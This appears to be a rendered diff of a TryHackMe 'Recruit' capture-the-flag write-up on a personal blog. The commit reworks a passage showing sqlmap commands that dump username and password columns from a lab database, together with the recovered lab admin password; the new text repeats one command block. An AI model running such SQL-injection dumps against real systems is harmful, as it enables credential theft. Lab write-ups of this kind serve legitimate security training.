

Before and after one commit to giriaryan694-a11y/AryterLog, a Markdown page: posts/tryhackme-recruit-writeup.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/posts/tryhackme-recruit-writeup.md
+++ b/posts/tryhackme-recruit-writeup.md
@@ -396,11 +396,29 @@ sqlmap -r req -D recruit_db -T users --dump
 Result:
 
 ```text
-+----+----------------+----------+
-| id | password       | username |
-+----+----------------+----------+
-| 1  | admin@001admin | admin    |
-+----+----------------+----------+
++----------+
+| username |
++----------+
+| admin    |
++----------+
+
+```
+```bash
+sqlmap -r req -D recruit_db -T users -C password --dump
+```
+Result:
+
+```bash
+sqlmap -r req -D recruit_db -T users -C password --dump
+```
+
+Result:
+```bash
++----------------+
+| password       |
++----------------+
+| admin@001admin |
++----------------+
 ```
 
 Administrator credentials recovered:
````
